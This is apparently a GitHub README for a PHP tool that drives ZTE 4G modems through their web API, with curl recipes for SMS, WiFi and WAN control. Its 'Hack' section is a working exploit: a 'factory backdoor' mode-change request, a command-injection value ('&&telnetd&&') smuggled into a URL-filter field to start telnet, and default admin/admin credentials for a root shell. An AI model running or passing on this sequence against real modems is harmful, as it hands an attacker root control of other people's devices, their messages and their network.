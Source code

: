 # ZTE API and Hack

## PHP Classes

See **src** folder:

Curl.php - Curl requests

Json.php - Json Encode / Decode

Hex.php - Hex Encode / Decode

Sms.php - Sms List, Send and Delete Message(s)

Login.php - Login

Wifi.php - WiFi Enable / Disable

Wan.php - Wan Connect / Disconnect

Hack.php - Hack the Modem

## How to Use PHP Class

**Require:**

Install php-curl extension

Install php-json extension

Set your **modem_ip** and **password** on **index.php**

**Optional:**

Composer [https://getcomposer.org](https://getcomposer.org)

**CLI interface:**

php index.php **parameters**

| parameter1 | parameter2 |  parameter3 | Result |
|------------|------------|-------------|--------|
|   ls       |            |             |**List all Messages** |
|	  rm       | #          |             |**Delete the Message #**|
|   rm       | '*'        |             |**Delete all Messages**|
|   snd      | Phone#     | 'Message'   |**Send The 'Message' to Phone#**|
|   wifi     | on/off     |             |**Enable or Disable Wifi**|
|   wan      | on/off     |             |**Connect or Disconnect WAN**|
|   hack     |            |             |**Hack Modem**|

**Obs:** Tested with PHP 7.2.29

Minimum PHP version 5.3.0

To Help please open an Issue

To contribute open a Pullrequest

***


## API

### Work with MF253M (Tested), MF823L, MF286, maybe others whit Web GUI

modem_ip is your modem IP

Password is base64 encoded
[https://www.base64encode.org](http://https://www.base64encode.org)

### Login
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d 'isTest=false&goformId=LOGIN&password=<Password>' http://<modem_ip>/goform/goform_set_cmd_process


if is OK {"result":"3"}
if is BAD {"result":"1"}
```

### SMS List
```
Method: GET

curl -s --header "Referer: http://<modem_ip>/index.html" http://<modem_ip>//goform/goform_get_cmd_process\?isTest\=false\&cmd\=sms_data_total\&page=0\&data_per_page\=500\&mem_store\=1\&tags\=10\&order_by\=order+by+id+desc

if is OK {"messages":[]}

```

### Delete SMS Message(s)
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d "isTest=false&goformId=DELETE_SMS&msg_id=<id>;&notCallback=true" curl -s --header "Referer: http://<modem_ip>/index.html"
http://<modem_ip>/goform/goform_set_cmd_process

id is a Message ID
To delete multiple pass ID one by one

if is OK {"result":"success"}

```

### Send SMS Message
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d "isTest=false&goformId=SEND_SMS&notCallback=true&Number=<phone_number>&sms_time=<date>&MessageBody=<message>&ID=-1&encode_type=UNICODE"
http://<modem_ip>/goform/goform_set_cmd_process

phone_number is urlencoded
message is hexencoded

if is OK {"result":"success"}
```

### Disable WiFi
```
Method: POST

curl -s --header "Referer: http://<modem_ip>/index.html" -d 'goformId=SET_WIFI_INFO&isTest=false&m_ssid_enable=0&wifiEnabled=0' http://<modem_ip>/goform/goform_set_cmd_process

if is OK {"result":"success"}

```

### Enable WiFi
```
Method: POST

curl -s --header "Referer: http:/<modem_ip>/index.html" -d 'goformId=SET_WIFI_INFO&isTest=false&m_ssid_enable=0&wifiEnabled=1' http://<modem_ip>/goform/goform_set_cmd_process

if is OK {"result":"success"}

```

***

## Hack

Linux  users must install curl and telnet

Password is base64 encoded
[https://www.base64encode.org](http://https://www.base64encode.org)

Linux users may use base64 in terminal (see man base64)

modem_ip is your modem IP

### Factory Backdoor

```
Method: POST

curl -s -H "Referer: http://<modem_ip>/index.html" "http://<modem_ip>/goform/goform_set_cmd_process?isTest=false&goformId=CHANGE_MODE&change_mode=2&password=<Password>"

if is OK {"result":"success"}

```
### Enable Root Acess

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=LOGIN&password=<Password>"

if is OK  {"result":"3"}

```

### Exploits Nvram

```
Method: POST

curl "http://<modem_ip>/goform/goform_set_cmd_process" -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -H "Referer: http://<modem_ip>/index.html" --data "isTest=false&goformId=URL_FILTER_ADD&addURLFilter=http%3A%2F%2F_L33T_H4X0R_%2F%26%26telnetd%26%26"

if is OK {"result":"success"}

```

### SSH Access

```
telnet <modem_ip> 4719

User: admin
Pass: admin

```

***

### Thanks to:

[https://taisto.org/ZTE_MF823D](http://https://taisto.org/ZTE_MF823D) - for PHP Class

[https://gist.github.com/mariodian/65641792700d237d30f3f47d24c746e0](http://gist.github.com/mariodian/65641792700d237d30f3f47d24c746e0) - for script shell

[https://gist.github.com/mariodian/bafe4b0a83226d7680ee41424c4e5b7b](http://gist.github.com/mariodian/bafe4b0a83226d7680ee41424c4e5b7b) - for pushover

[https://pushover.net](http://https://pushover.net)

[https://www.fr.net.br/2016/02/modem-zte-mf823l-avaliacao.html](http://https://www.fr.net.br/2016/02/modem-zte-mf823l-avaliacao.html)

[http://my-router.blogspot.com/2015/09/zte-mf823-4g-change-ip-of-modem-and-get.html](http://http://my-router.blogspot.com/2015/09/zte-mf823-4g-change-ip-of-modem-and-get.html)

[http://blog.asiantuntijakaveri.fi/2017/03/backdoor-and-root-shell-on-zte-mf286.html](http://blog.asiantuntijakaveri.fi/2017/03/backdoor-and-root-shell-on-zte-mf286.html) - for Hack

[https://www.base64encode.org](http://https://www.base64encode.org) - for code and decode base64

[https://incarnate.github.io/curl-to-php/](https://incarnate.github.io/curl-to-php/) - for convert curl to PHP curl

